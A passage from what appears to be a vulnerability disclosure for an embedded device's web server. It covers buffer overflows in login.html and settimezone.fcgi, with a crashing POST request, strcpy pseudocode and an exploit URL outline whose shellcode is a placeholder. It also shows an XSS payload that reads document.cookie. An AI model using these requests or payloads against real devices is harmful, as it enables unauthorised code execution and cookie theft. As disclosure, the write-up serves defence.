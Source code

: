 ~~~
   e:	4738      	bx	r7
~~~

We can verify below that this contains no non-printable characters.

~~~
$ perl -e 'print "\x6f\x46\x6e\x3f\x6e\x3f\x38\x47"' | xxd
00000000: 6f46 6e3f 6e3f 3847                      oFn?n?8G
~~~

The final exploit will look like this:

~~~
GET /login.html?AAAoFn?n?8G&DOCUMENT_ROOT=[URL-encoded shellcode + exploit]
~~~

The exploit was verified to work in a debugger, however it will not be stable 
unless the attacker knows the offset for the shared library used.


### Buffer Overflow 2 - settimezone.fcgi

The vulnerable parameter is the 'timezone'-parameter shown below. The
maximum number of bytes that can be sent in before crashing the program is 19 bytes, when
sending in 20 bytes, the program crashes.

~~~
POST /settimezone.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 61
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

timezone=[20B]&area=Europe/Oslo&source=Android
~~~

Pseudocode of the vulnerable parts were shown above, but is also included below:

~~~
char vulnerable[16];
char* timezone = get_parameter("timezone");
strcpy(vulnerable, (timezone + 4));
~~~


## Cross-Site-Scripting (XSS)

The same vulnerability that causes the buffer overflow in 'index.html' and
'guest.html' can be used to trigger an XSS-vulnerability. The buffer the data
is copied into can hold 64 bytes and after that, the data is copied into the user password
which is printed back to the web page. The vulnerability is shown in the request
below.

~~~
GET /index.html?DOCUMENT_ROOT=[64B]'><script>alert(document.cookie)</script> HTTP/1.1
~~~
